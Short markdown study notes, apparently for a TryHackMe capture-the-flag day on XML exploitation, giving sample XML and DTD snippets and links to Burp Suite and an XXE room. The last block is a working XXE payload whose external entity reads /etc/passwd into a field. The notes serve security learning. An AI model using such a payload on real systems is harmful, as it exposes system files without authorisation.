 # Notes for Day5

## Theme: **XML Exploitation**

## Links

- [Burp Suite](https://portswigger.net/burp/communitydownload)
- [XXE Room](https://tryhackme.com/r/room/xxeinjection)

## General

- Extensible Markup Language (XML) example:

```xml
<people>
   <name>Glitch</name>
   <address>Wareville</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

- Document Type Definition (DTD) example:

```html
<!DOCTYPE people [
   <!ELEMENT people(name, address, email, phone)>
   <!ELEMENT name (#PCDATA)>
   <!ELEMENT address (#PCDATA)>
   <!ELEMENT email (#PCDATA)>
   <!ELEMENT phone (#PCDATA)>
]>
```

- Example XML External Entity (XXE) vulnerability:

```xml
<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>Glitch</name>
   <address>&thmFile;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```
